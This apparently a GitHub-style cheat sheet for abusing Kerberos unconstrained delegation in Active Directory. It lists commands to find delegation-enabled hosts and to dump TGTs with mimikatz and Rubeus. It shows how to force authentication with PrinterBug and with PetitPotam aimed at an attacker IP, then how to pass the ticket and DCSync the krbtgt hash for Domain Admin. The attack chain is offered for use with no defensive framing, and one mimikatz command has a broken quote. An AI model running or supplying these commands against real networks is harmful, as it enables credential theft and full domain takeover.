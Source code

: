 # Unconstrained Delegation

The first hop server can request access to any service on any computer

## Requirements: UAC: ADS_UF_TRUSTED_FOR_DELEGATION

## Tools: Rubeus , mimikatz 

# Enumerate Computers with Unconstrained Delegation

    Get-NetComputer -UnConstrained

##### With AD Module

    Get-ADComputer -Filter {TrustedForDelegation -eq $True}
    Get-ADUser -Filter {TrustedForDelegation -eq $True}

# Get tickets

After compromising the computer with UD enabled, we can trick or wait for an admin connection

#### 1) mimikatz

    mimikatz "privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export (Get TGT ticket)

#### 2) Rubeus

    Rubeus dump /service:krbtgt /nowrap (Get TGT ticket)

    Rubeus dump /luid:0xdeadbeef /nowrap (Get TGT ticket)

# Reuse the ticket (Pass-the-Ticket

    Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'

# Force_coercion_with_coerced_auth

#### 1) To force another computer to connect to the compromised machine in UD, and capture the TGT by monitoring:

    Rubeus monitor /interval:5 /nowrap (Get TGT)

On the attacking machine, run

##### PrinterBug

    .\MS-RPRN.exe \\<target>.domain.local \\unconstrainedMachine.domain.local

##### PetitPotam

    .\PetitPotam.exe attacker_ip <target>.domain.local

### We get the ticket, then we move laterally with Pass the Ticket. If the target is a DC, we do a DC Sync to get Domain Admin access

    .\Rubeus.exe ptt /ticket:...

##### DCSync with the dc TGT

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

